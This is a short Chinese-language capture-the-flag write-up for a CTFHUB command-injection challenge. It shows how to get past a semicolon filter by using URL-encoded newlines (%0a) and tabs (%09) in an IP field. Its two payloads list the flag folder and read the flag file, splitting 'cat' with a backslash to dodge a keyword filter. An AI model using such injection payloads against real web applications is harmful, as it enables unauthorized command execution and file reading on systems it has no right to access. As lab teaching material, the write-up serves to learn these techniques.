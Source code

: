 ### %0a 代替 ; 绕过

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687cbb6d58cb8da5c8c8741d.png)

查看 flag_is_here 文件夹下的文件

```sh
# %0a - URL 编码的换行符（LF，ASCII 0x0A）
# 在命令行中，换行符可以用于分隔命令，可能用于注入额外命令
# %09 - URL 编码的水平制表符（TAB，ASCII 0x09）
# * 匹配任意字符
127.0.0.1%0als%09*is_here
```

![](https://pic1.imgdb.cn/item/687cbc5058cb8da5c8c8747c.png)

拿到 flag

```sh
127.0.0.1%0acd%09*_is_here%0aca%5ct%09*_100171326731527.php
```

![](https://pic1.imgdb.cn/item/687cbc9058cb8da5c8c8747f.png)